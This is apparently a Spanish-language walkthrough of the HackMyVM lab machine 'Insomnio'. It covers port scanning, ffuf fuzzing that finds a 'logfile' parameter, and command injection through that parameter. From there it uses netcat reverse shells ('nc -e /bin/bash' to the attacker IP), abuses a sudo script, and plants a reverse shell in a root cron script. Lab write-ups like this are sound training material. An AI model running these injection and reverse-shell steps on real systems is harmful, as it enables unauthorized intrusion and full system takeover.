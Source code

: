 ## MAQUINA INSOMNIO

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-03-29%20230311.png).

Realizamos un escaneo de red con netdiscover para ver las maquinas conectas a mi red.

```bash
netdiscover -i eth0 -r 192.158.0.162
```
![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-03-29%20205346.png)

Seguido de eso cuando ya tenemos la ip victima hacemos un ping ella, en este caso la ip victima es: 192.168.0.146

Hacemos un escaneo de puertos con nmap usando el siguiente comando:

```bash
nmap -p- --open -sS --min-rate 5000 -n -vvv -Pn 192.168.0.146

nmap -sV -sC 192.168.0.146
```

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-03-29%20205600.png)

Como resultado nmap mostro que solo hay un puerto abierto: puerto 8080

Utilizamos whatweb para ver que mas información sobre la pagina.

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-03-29%20205821.png).

Entramos a sitio web colocando la ip en el navegador.

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-03-29%20210028.png)

Aca una vez ingresando un nombre cualquiera podemos ingresar cualquiera palabra y esta no nos devolvera ninguna respuesta.

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-03-29%20210118.png)

Buscamos directorios ocultos con FFUF usando el siguiente comando:

```bash
ffuf -c -w "wordlists" -e .html,.php,.txt -u http://192.168.0.146 -fs 2899

chat.txt
administration.php
process.php

"-fs 2899`: Filtra las respuestas para mostrar solo aquellas que tienen un tamaño de contenido de 2899 bytes."
```
![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-03-29%20212848.png)

fuff encontro 3 resultados vamos a ver su contenido:

>chat.txt

Muestra lo que enviamos al chat.

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-03-29%20212713.png)

>administration.php

Aca hay algo interesante ya que podría estar esperando algo después del símbolo de dos puntos "view:". Vamos a terminar de completar la url en php ya que nos falta el parametros que no tenemos!.

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-03-29%20210356.png)

```bash
Importante por si no saben:
Esquema: http
Host: ip
Puerto: 8080
Ruta: administration.php
Parametros (?xxx=xxx): en este caso no tenemos ! 

En PHP, una URL se forma mediante la combinación de varios componentes, que incluyen el esquema, el host, el puerto, la ruta, los parámetros de consulta y los fragmentos. Aquí te presento una descripción general de cada componente:

1. **Esquema (Scheme)**: Especifica el protocolo utilizado para acceder al recurso. Por ejemplo, "http" o "https".
    
2. **Host**: Es el nombre de dominio o la dirección IP del servidor al que se está accediendo.
    
3. **Puerto**: Opcionalmente, puede especificar el puerto del servidor al que se está accediendo. Por defecto, los navegadores web utilizan el puerto 80 para HTTP y el puerto 443 para HTTPS si no se especifica ningún puerto.
    
4. **Ruta (Path)**: Especifica la ubicación del recurso en el servidor. Por ejemplo, "/ruta/a/mi/recurso".
    
5. **Parámetros de Consulta (Query Parameters)**: Opcionalmente, puedes incluir parámetros de consulta para enviar datos adicionales al servidor. Estos parámetros están separados de la URL base por un signo de interrogación (`?`) y se separan entre sí por el símbolo ampersand (`&`). Por ejemplo, "?param1=valor1&param2=valor2".
    
6. **Fragmento (Fragment)**: Opcionalmente, puedes incluir un fragmento que especifica una ubicación específica dentro del recurso al que se está accediendo. El fragmento se identifica mediante el símbolo de almohadilla (`#`) seguido del identificador del fragmento.
    

Un ejemplo de URL en PHP sería:

==`$url = "https://www.ejemplo.com:8080/ruta/a/mi/recurso?param1=valor1&param2=valor2#fragmento";`==

Aquí, "https" es el esquema, "[www.ejemplo.com](http://www.ejemplo.com/)" es el host, "8080" es el puerto, "/ruta/a/mi/recurso" es la ruta, "param1=valor1&param2=valor2" son los parámetros de consulta y "fragmento" es el fragmento.

```
En este caso utilizamos ffuf para encontrar algun parametro php en la url.

```bash
ffuf -c -w /wordlists/ -u http:ip/admnistration.php?FUZZ=hola -fs 65
```
![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-03-29%20221049.png)

Genial! Obtuvimos como resultado un parametro llamado logfile, asi que suplantamos el "?FUZZ" de la url con el "?logfile", y nos devuelve el parametro "hola" en la web.

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-03-29%20221216.png)

Ahora podemos enviarnos una revershell a nuestra maquina atacante.

Para ello utilizamos el siguiente comando

```bash
maquina atacante:
1ero.: nc -nlvp 1234

maquina victima (en url)
2do.: nc -e /bin/bash 192.168.0.162 1234
```
![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-03-29%20222710.png)

# Atencion: Atento el ";" si no se coloca no se enviar la revershell. $url = "http://example.com/page.php?id=1;"; // Nota el punto y coma al final.

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-03-29%20222734.png)

Listo tenemos conexion y somos usuario www-data, vamos escalar privilegios.

En el directorio home tenemos el usuario 'JULIA'
Vemos si tenemos permiso sudo, y encontramos que hay un script.sh ejecuntando en la ruta /var/www/html que no requiere contraseña.

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-03-29%20223929.png)

Hacemos lo  siguiente:

```bash
echo '/bin/bas' >> start.sh

"Este comando imprime el texto '/bin/bash' en la salida estándar (normalmente la pantalla)."

"`Entonces, en resumen, el comando echo '/bin/bash' >> start.sh añade la línea '/bin/bash' al final del archivo start.sh. Esto es comúnmente utilizado en scripts de shell para añadir comandos, rutas o cualquier otra información que necesiten ser escritos en un archivo para ser utilizados posteriormente. En este caso particular, se está agregando la ruta al intérprete de comandos Bash al archivo start.sh.`"
```

Con esto cambiamso el usuario de www-data a julia

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-03-29%20224631.png)

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-03-29%20224705.png)

Leemos lo archivos crontab y parecer que ejecuta como root un script.sh en la ruta /var/cron.

```bash
cat /etc/crontab
```
![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-03-29%20225301.png)

Vamos a enviarnos el una revershell hacia nuestra maquina para obtener el usuario root, asi que realizamos los siguiente:

```bash
`echo 'echo 'nc -e /bin/bash ip puerto' >> /var/cron/check.sh'`
```
![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-03-29%20230120.png)

Y listo somos usuario root










